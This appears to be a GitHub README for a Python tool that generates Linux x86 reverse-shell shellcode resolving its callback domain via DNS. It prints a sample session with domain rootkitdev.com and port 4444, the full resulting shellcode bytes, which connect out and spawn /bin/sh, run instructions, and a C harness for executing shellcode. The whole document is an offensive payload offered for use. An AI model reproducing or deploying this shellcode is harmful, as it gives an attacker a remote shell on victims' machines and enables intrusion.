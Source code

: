 # KotikDNSPayload
ReverseDnsPayload -- The First and Only In The World! 

## Currenty working on uploading this to Metapsloit Stay Tuned!




![xitriykotik](https://github.com/SourceCodeDeleted/HitriyKotik/blob/master/HitriyKotik.png)


```
Hitriy Kotik (Tricky Cat) is my name and I like dealing in shellcode. I have something special in the market place for you! 

 !!!!! A Reverse DNS TCP Payload For Linux !!!!! 

 Tell Me , a few things and I will generate the shellcode for you!
[+] Tell Me The Domain You wish To Connect Back To : rootkitdev.com
[+] Tell Me The Port   You Wish To Connect Back To : 4444
[+] I Am Making Your PayLoad Right Now....
[+] ASM Created Successfully....
[+] Nasm Compiling........
[+] Objdumping........


\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x6a\x02\x6a\x02\x89\xe1\xcd\x80\x50\x68\x08\x08\x08\x08\x31\xd2\xb6\x35\x66\x52\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x31\xc0\xb0\x66\x80\xc3\x02\xcd\x80\x31\xc0\xb0\x66\x6a\x00\x68\x00\x01\x00\x01\x68\x63\x6f\x6d\x00\x68\x64\x65\x76\x03\x68\x74\x6b\x69\x74\x68\x0a\x72\x6f\x6f\x6a\x00\x68\x00\x01\x00\x00\x68\xaa\xaa\x01\x00\x89\xe2\x31\xc9\x51\x6a\x40\x52\x56\x89\xe1\x31\xdb\xb3\x09\xcd\x80\xb8\x03\x00\x00\x00\xbb\x03\x00\x00\x00\x89\xe1\xba\x64\x00\x00\x00\xcd\x80\x01\xc4\x83\xec\x04\x8b\x04\x24\x50\x31\xd2\x6a\x66\x58\x6a\x01\x5b\x52\x53\x5a\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x6a\x03\x5b\x52\x66\x68\x5c\x11\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\x89\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xbc\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80


```



# To Run:
simply run ...
```
python hitriykotik.py 
```

and you'll be greeted by the Cat above and he will ask you a couple of questions and use nasm and objdump to give you yourshellcode.

# Requirements

Linux is desireable, but not required.
1. python3
2. nasm
3. objectdump


# For Testing:
Make a C file and compile using
```
gcc -m32 test.c -o test
``` 
```
#include<stdio.h>
#include<string.h>

const char shellcode[] =  "\0x00\YOUR\SHELL\CODE\0x00\";



int main(){
    int (*ret)() = (int(*)())shellcode;
    ret();
}


```

# Known Issues:
I am reading from a socket For the DNS response. Read will wait until the socket has a buffer to read from. This means that if you receive no DNS response , your program will wait indefinitley. 

### Stay Secure My Friends!
